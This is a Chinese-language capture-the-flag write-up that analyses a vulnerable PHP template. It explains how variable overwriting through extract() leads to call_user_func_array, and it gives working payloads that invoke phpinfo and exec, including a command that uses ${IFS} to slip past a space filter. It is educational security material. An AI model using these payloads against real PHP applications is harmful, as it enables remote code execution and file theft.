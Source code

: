 `/template/admin/index.html`

```php
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>后台</title>
</head>
<body>
<!--<img src="<?php echo $img;?>">-->
<div><?php echo $this->listdata("action=list module=$mod");//$mod参数可控，用这里调用listdata
    ?><div> 
    <h6>version: <?php echo $version;?></h6>
</body>
</html>
```

审完代码，利用点在Class.php中的`call_user_func_array`

代码逻辑思路：分析都在上面源码中写了

```
GET -> display -> getTempName -> include包含
POST-> array_merge -> extract(变量覆盖) -> 由于有include，通过$mod进入listdata -> 一大堆字符串生成新数组 -> switch -> call_user_func_array
```

payload：

```
?filename=index.html
space=admin&mod=1 action=function name=phpinfo
```

![image-20220707125836664](img/6889ac8515789dde828a654328cb77da.png)

有`disable_functions`

看能不能写文件（不能出现空格）

```
?filename=index.html
space=admin&mod=1 action=function name=exec param1=cat${IFS}/f*>/var/www/html/1
```



##  GFCTF 2021 文件查看器
